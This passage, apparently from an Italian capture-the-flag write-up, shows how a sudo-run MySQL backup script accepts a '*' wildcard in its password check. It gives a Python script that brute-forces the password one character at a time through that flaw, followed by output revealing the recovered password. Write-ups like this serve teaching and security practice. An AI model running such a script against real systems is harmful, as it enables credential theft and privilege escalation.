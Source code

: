 Effettuando diversi tentativi, scopro che inserendo il carattere "*" ottengo in output "Password confirmed!". Quindi cerco di sfruttare questo comportamento attraverso l'utilizzo di questo codice in python:

```text
import string
import subprocess

wordlist = string.ascii_letters + string.digits
c = ""

while True:
  for i in wordlist:
    s = c + i + "*"

    p = subprocess.Popen(
      ["sudo", "/opt/scripts/mysql-backup.sh"],
      stdin=subprocess.PIPE,
      stdout=subprocess.PIPE,
      stderr=subprocess.PIPE,
      text=True
      )

    stdout, stderr = p.communicate(input=s)

    if "Done!" in stdout:
      c += i
      print(c)
```

Lo eseguo e ottengo il seguente output:

```text
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
